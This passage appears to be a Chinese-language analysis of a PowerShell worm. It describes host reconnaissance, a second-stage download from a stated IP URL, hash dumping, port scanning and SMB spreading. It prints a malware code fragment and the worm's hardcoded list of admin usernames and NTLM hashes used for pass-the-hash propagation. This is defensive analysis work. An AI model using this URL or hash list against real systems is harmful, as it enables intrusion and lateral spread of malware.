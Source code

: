 ```
Microsoft\cred.ps1" /F}}catch{}[System.Threading.Thread]::Sleep(3000)Stop-Process -Force -processname powershell
```

大致意思就是收集本机的操作系统版本、用户名、MAC地址、杀毒软件写入当前环境变量的`temp\ppp.log`中。

一般是`C:\Users\<USERNAME>\AppData\Local\Temp\ppp.log`

然后下载新的powershell文件，到`C:\Users\<USERNAME>\AppData\Roaming\Microsoft\cred.ps1`中。

下载的URL是：http://172.104.177.202/new.dat?xl

![](https://images.payloads.online/4f43cf74-4f5f-11ec-b265-00d861bf4abb.png)

目前ti上未打标签。

再次经过N层解密后，得到如下代码：

![](https://images.payloads.online/4f83bf76-4f5f-11ec-93f1-00d861bf4abb.png)

大约6000多行

![](https://images.payloads.online/4fcaba3e-4f5f-11ec-934a-00d861bf4abb.png)


脚本的功能：

1.获得当前用户Hash，读取注册表

2.获得当前系统版本、MAC地址、当前系统所有用户、反病毒软件，尤其是360 Zhudongfangyu服务

3.端口扫描，全量1-65535、445、139都会扫描

4.依赖于445 SMB服务进行传播

其中，常用的Hash和用户名：

```
[string[]]$global:alluser = @("administrator","admin")[string[]]$global:allpass = @("32ed87bdb5fdc5e9cba88547376818d4","8846f7eaee8fb117ad06bdd830b7586c","7b592e4f8178b4c75788531b2e747687","3fa45a060bd2693ae4c05b601d05ca0c","69943c5e63b4d2c104dbbcc15138b72b","588feb889288fb953b5f094d47d1565c","3dbde697d71690a769204beb12283678","df54de3f3438343202c1dd523d0265be","7ce21f17c0aee7fb9ceba532d0546ad6","2d7f1a5a61d3a96fb5159b5eef17adc6","6103d9d963c57275dd3533674708e7be","579110c49145015c47ecd267657d3174","af27efb60c7b238910efe2a7e0676a39","259745cb123a52aa2e693aaacca2db52","4057b60b514c5402dde3d29a1845c366","e8cd0e4a9e89eab931dc5338fcbec54a","f1351ac828428d74f6da2968089fc91f","b5fe2db507cc5ac540493d48fbd5fe33","12bdea0a1cb9486c067deaa851ac1609","f9e37e83b83c47a93c2f09f66408631b","b23a90d0aad9da3615fafc27a1b8baeb","a333f09e72c683f0205049d0db8b81fb","ad70819c5bc807280974d80f45982011","2d20d252a479f485cdf5e171d93985bf","0b6549421b2e7333e0e281f3ba5eea94","209c6174da490caeb422f3fa5a7ae634","a80c9cc3f8439ada25af064a874efe2d","22315d6ed1a7d5f8a7c98c40e9fa2dec","b963c57010f218edc2cc3c229b5e4d0f","96880159e785de5314803b1169768900","8ec60adea316d957d1cf532c5841758d","c22b315c040ae6e0efee3518d830362b","7a21990fcd3d759941e45c490f143d5f","328727b81ca05805a68ef26acb252039","31c72c210ecc03d1eae94fa496069448","209c6174da490caeb422f3fa5a7ae634","674e48b68c5cd0efd8f7e5faa87b3d1e","31fc0dc8f7dfad0e8bd7ccc3842f2ce9","579110c49145015c47ecd267657d3174","f2477a144dff4f216ab81f2ac3e3207d","62b26c13b70e7d5a9724710a41e63688","5835048ce94ad0564e29a924a03510ef","7773c08920232397cae081704964b786","a4141712f19e9dd5adf16919bb38a95c","b3ec3e03e2a202cbd54fd104b8504fef","f9e37e83b83c47a93c2f09f66408631b","162e829be112225fedf856e38e1c65fe","f67f5e3f66efd7298be6acd32eeeb27c")
```
